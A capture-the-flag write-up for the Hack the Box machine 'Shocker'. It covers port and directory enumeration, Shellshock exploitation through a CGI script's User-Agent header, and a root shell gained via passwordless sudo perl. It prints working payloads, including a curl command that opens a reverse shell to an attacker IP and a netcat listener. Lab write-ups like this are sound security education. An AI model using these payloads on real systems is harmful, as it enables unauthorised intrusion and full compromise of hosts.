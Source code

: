```yaml
---
title: Shocker
tags: linux
description: Write-up for Hack the Box - Shocker
---
```


![image](assets/79377933-77979c00-7f2a-11ea-8b23-43eefc2f2249.png)

## Overview

Shocker is an Ubuntu box that is vulnerable to the [Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)) vulnerablility. ShockShock alows for environment variables that specify a function definition to be arbitrarily defined within bash. Bash continues to process shell commands after the function definition which allows for abuse in the form of code injection. By exploiting this vulnerability I was able to embed a bash command in the "User Agent" http header to create a reverse shell which provided initial foothold as user shelly. Shelly was able to run sudo without password for perl which was used to spawn a shell as root.

## Enumeration

**Software**

* Ubuntu 16.04.3 LTS
* Apache 2.4.18
* Sudo 1.8.16-0ubuntu1.5

**Port Scan**

```
nmap -vv -Pn -sT -A -p- 10.10.10.56 -oN /mnt/data/boxes/shocker/_full_tcp_nmap.txt
```

* 80/tcp - http
* 2222/tcp - ssh

**gobuster**

```
gobuster dir -u http://10.10.10.56 -w ~/tools/SecLists/Discovery/Web-Content/common.txt -t 40
```

* /.hta (Status: 403)
* /.htpasswd (Status: 403)
* /.htaccess (Status: 403)
* /cgi-bin/ (Status: 403)
* /index.html (Status: 200)
* /server-status (Status: 403)


```
gobuster dir -u http://10.10.10.56/cgi-bin/ -w ~/tools/SecLists/Discovery/Web-Content/common.txt -t 40 -x sh
```

* /.htpasswd (Status: 403)
* /.htpasswd.sh (Status: 403)
* /.hta (Status: 403)
* /.hta.sh (Status: 403)
* /.htaccess (Status: 403)
* /.htaccess.sh (Status: 403)
* /user.sh (Status: 200)


## Steps (user)

Some background: There was quite a bit of trial and error involved in the enumeration phase on this box. The normal wordlists I use were not finding anything (directory-list-2.3-small/medium.txt) so I tried some different ones found on [SecLists](https://github.com/danielmiessler/SecLists). Once I found cgi-bin/ I ran a scan again with gobuster, looking for shell files and finally found user.sh.

I browsed to http://10.10.10.56 and was brought to a page containing an image of a bug with the caption "don't bug me".

![image](assets/83983663-4f129980-a8fe-11ea-91c6-d15936f8d44b.png)

Looking at the gobuster results from earlier, I browsed to http://10.10.10.56/cgi-bin/user.sh and opened the script to take a look and confirmed it was definitely executing bash comands.

![image](assets/84602974-f8a2df00-ae58-11ea-81f3-d5b34c8f3ff3.png)

Considering the box name was "Shocker", I tested to see if it was vulnerable to ShellShock by having the target execute a command to ping my box.

I set up tcpdump to listen for icmp only on tun0 (tcpdump -i tun0 icmp) and ran the curl command with function definition followed by the ping command

```
curl -H "User-Agent: () { :; }; /bin/ping -c 1 10.10.14.23 " http://10.10.10.56/cgi-bin/user.sh
```

I received a ping from the target.

![image](assets/83984229-0fe64780-a902-11ea-83a0-62859458a03c.png)

Now that I knew I could execute commands I set up a netcat listener (nc -lvnp 4200) and added a reverse shell to the curl command. Once run I received a callback and shell as user shelly.

```
curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.12/4200 0>&1" http://10.10.10.56/cgi-bin/user.sh
```

![image](assets/83984262-47ed8a80-a902-11ea-8470-389f7d1311eb.png)


## Steps (root/system)


One of the first things I do is run sudo -l which lists the allowed commands for the user. The output of this command showed that user Shelly could run perl as root with no password

> [sudo](https://linux.die.net/man/8/sudo) allows a permitted user to execute a command as the superuser or another user, as specified by the security policy.

![image](assets/83984281-5b005a80-a902-11ea-8406-0c0e0c0e886f.png)

Searching GTFOBins for perl I found a command that could be used to spawn a shell. Running the command with sudo gave me shell as root.

> [GTFOBins](https://gtfobins.github.io/) is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions

```
sudo perl -e 'exec "/bin/sh";'
```

![image](assets/83984312-86834500-a902-11ea-8b6c-cfca1174805e.png)

